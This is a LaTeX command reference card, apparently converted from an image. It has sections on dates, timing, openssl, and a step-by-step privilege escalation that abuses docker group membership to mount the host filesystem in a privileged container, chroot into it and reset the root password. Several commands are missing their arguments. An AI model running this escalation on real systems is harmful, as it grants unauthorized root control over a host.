\documentclass{refcard}
\begin{document}
\section{Dates}

\begin{ldesc}
	 date -d "@"
	 date -d "-- ::" -f +\%s
\end{ldesc}

\section{Timing}

\begin{ldesc}
	 \$ time cat
	            \$ time  [arguments...]
	            \$ /usr/bin/time -f\%e 
	    \$ /usr/bin/time -f\%M 
	                \$ /usr/bin/time -f"\%es \%MKb" 
\end{ldesc}

\section{SSL}

\begin{ldesc}
	 \$ openssl s\_client -connect :443
\end{ldesc}

\newpage

\section{Privilege escalation}

\subsection{becoming root on Linux/UNIX}

\begin{ldesc}
	\li[using \C{su}  ] \$ su ~~~~~~~~~~~~~ \# needs pw
	 \$ sudo su ~~~~~~~~ \# may need pw
		user@host\$ groups ~\# needs docker group\li
		...~docker~... \li
		user@host\$ mount | grep " / " \li
		/dev/sdXX on / type ... \li
		user@host\$ docker pull  \li
		user@host\$ docker run -{-}privileged -ti  \li
		root@container\$ mount /dev/sdXX /mnt \li
		root@container\$ chroot /mnt /bin/bash \li
		root@chroot\$ passwd \li
		New password: \li
		root@chroot\$ exit \li
		root@container\$ exit \li
		user@host\$ su \li
		Password: \li
		root@host\$
\end{ldesc}
\end{document}
